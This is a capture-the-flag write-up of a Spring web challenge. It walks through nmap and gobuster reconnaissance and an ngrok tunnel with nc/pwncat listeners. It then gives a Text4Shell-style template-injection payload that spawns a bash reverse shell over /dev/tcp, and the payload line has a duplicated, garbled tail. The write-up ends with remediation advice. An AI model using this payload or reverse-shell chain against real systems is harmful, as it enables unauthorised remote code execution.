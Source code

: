 ```yaml
---
title: Safaricom PwnZone CTF Prequalifiers
date: 2025-10-05 08:00:00 +0800
categories: [ctf, web]
tags: [ctf, safaricom_ctf, web, reverse_shell ]    # TAG names should always be lowercase
description: "Challenge: Message Me"
---
```



# Message Me

![Message Me Challenge](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/ctf.safaricom.co.ke_Message_Me_stlobl.png){: width="400" height="400"}

---

## TL;DR

A web service listening on port `8802` echoed user-supplied input into a template-rendered response. By abusing template evaluation / remote-lookup behavior (a Text4Shell-style vector) and exposing a local TCP listener via **ngrok → nc/pwncat**, I forced the server to open a reverse TCP connection, obtained an interactive shell, and retrieved the flag.

---

## Challenge overview
**Target:** `http://54.72.82.22:8802`  
**Hint:** *Its 2021, you give me text, I give you shell.* 

The service accepts a `message` parameter and echoes it back. The objective is to craft input that leads to command execution (a shell) on the server.

![Message Overview](/dzif8ltvg/image/upload/v1759699750/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/ctf.safaricom.co.ke_challenges_port_pw42la.png)

---

## Reconnaissance

### Port scan

```bash
$ nmap 54.72.82.22 -p 8802
Starting Nmap 7.92 ( https://nmap.org ) at 2025-10-03 20:00 EAT
Host is up (0.15s latency).
PORT     STATE SERVICE
8802/tcp open  unknown
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

### Directory bruteforce

```bash
$ gobuster dir -u http://54.72.82.22:8802 -w ~/path to wordlist/common.txt 
/error                (Status: 500) [Size: 105]
/favicon.ico          (Status: 200) [Size: 946]
```

The error output and favicon indicated a Spring/Thymeleaf stack (Whitelabel error page):

```
Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
Sun Oct 05 20:16:45 GMT 2025
There was an unexpected error (type=Not Found, status=404).
No message available
```

This stackhint narrowed the attack surface to template rendering and server-side evaluation mechanisms.

---

### Initial tests

I tested the `message` parameter to understand its reflection/escaping behavior. A simple XSS check showed input was reflected in the page:

`http://54.72.82.22:8802/?message=<script>alert(1)</script>`

![XSS/reflection test](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/saf_xss_d9yghw.png){: width="400" height="400"}


**Observations:**
- The app reflected user input into the response.
- Some escaping/filtering was present, but it was possible to craft payloads to bypass naive filters.
- The stack’s templating behavior made template-evaluation style payloads a primary avenue.

---

### Remote listener setup

The exploit required the target to connect back to a public listener. My environment lacked direct router forwarding, so I used **ngrok** to expose a local listener:


1. **Install / configure ngrok**  
   - Download and Sign In: Get the ngrok binary from the official ngrok website. 
   - Authenticate: Add your free-tier authentication token. This is sufficient for setting up a basic listener.

2. **Start an ngrok TCP tunnel to local port `9090`:**
    - Start a tunnel that forwards traffic from a public ngrok endpoint to your local port 9090.
    - Heads Up: The ngrok service may require a verified account (which sometimes means adding a credit card) to activate the TCP tunneling feature on the Free Tier.

    ```bash
    ngrok tcp 9090
    ```

    Ngrok will provide a public endpoint your target machine will connect to. The output will look similar to this:

    ```
    Forwarding                    tcp://x.tcp.in.ngrok.io:xxxxx -> localhost:9090
    ```

    Optional: Resolve public host to an IP:
    If your reverse shell payload requires an IP address instead of a hostname, you can resolve the ngrok address:

    ```
    $ nslookup x.tcp.in.ngrok.io
    Server:		127.0.0.53
    Address:	127.0.0.53#53
    Non-authoritative answer:
    Name:	x.tcp.in.ngrok.io
    Address: 13.x.x.x
    ```

3. Start a local listener:
    Start a local listener on port 9090 to catch the incoming connection from the ngrok tunnel.

    ```
    nc -lvnp 9090
    # or
    pwncat -lv 9090
    ```
    Once the target executes the reverse shell payload directed at your ngrok public endpoint (x.tcp.in.ngrok.io:xxxxx), you will receive the connection on your local listener.

---

### Attack Approach: Template Injection to Reverse Shell 🐚

The vulnerability exploited involved the application rendering reflected user input directly within a template context.

I used a template evaluation / remote lookup style payload — specifically tailored to the app's underlying technology stack to trigger a crucial action on the server:

1. Outbound Connection: The server was coerced into initiating an outbound TCP connection to my controlled ngrok endpoint.

2. Reverse Shell: This connection was then used to spawn and redirect a reverse shell back to my listener.

For reference on the general class of technique see: [text4shell](https://www.aquasec.com/cloud-native-academy/supply-chain-security/text4shell/) 

---

## Crafting the payload 
I iteratively tuned the payload to successfully bypass the application's escaping and filtering mechanisms and to reliably trigger a network callback to my listener.

Tools like CyberChef were essential for manipulating the payload, and using the curl option `--data-urlencode` helped create payload variants that survived both URL encoding and the server-side filters.

Final Payload Structure (Template Evaluation)

```
${script:javascript:java.lang.Runtime.getRuntime().exec(Java.to(['/bin/bash','-c','sh -i >& /dev/tcp/your_ip_address/your_port 0>&1'],'java.lang.String[]'))} "your_port 0>&1'],'java.lang.String[]'))} "
```
Note: This specific structure utilizes a scripting engine within the templating context (like JNDI/OGNL) to execute.


---

### Receiving the shell

Once the payload was successfully delivered to the target application, my ngrok listener received the incoming connection and dropped into an interactive shell.

![pwncat reverse shell](/dzif8ltvg/image/upload/v1759699751/CTF/Safaricom%20PwnZone%20CTF%20Prequalifiers/pwncat_main_arttya.png)

I quickly enumerated the filesystem and successfully located the flag.

---


## Remediation & mitigation

If this were a production application, recommended mitigations include:

- **Use safe template APIs / escape all untrusted input**
  - Never evaluate or interpret user input within templates
  - Prefer APIs that treat user data strictly as text (no expression evaluation)

- **Disable remote lookups & unsafe features**
  - For Spring/Thymeleaf apps, ensure features that can trigger remote lookups or expression evaluation from user input are disabled

- **Egress filtering**
  - Implement strict outbound network controls so application hosts cannot freely connect to arbitrary external addresses

- **Input validation & allowlists**
  - Apply context-aware escaping and strict allowlists for expected values

- **Detect & alert on anomalous outbound connections**
  - Monitor for unexpected outbound connections and unusual process/network activity

---

## Acknowledgements & Special Thanks

This guided solution was developed after the initial breakthrough by **Carlos**, who — using an innovative (and unintended) DNS exfiltration technique — earned first blood on the challenge.

---

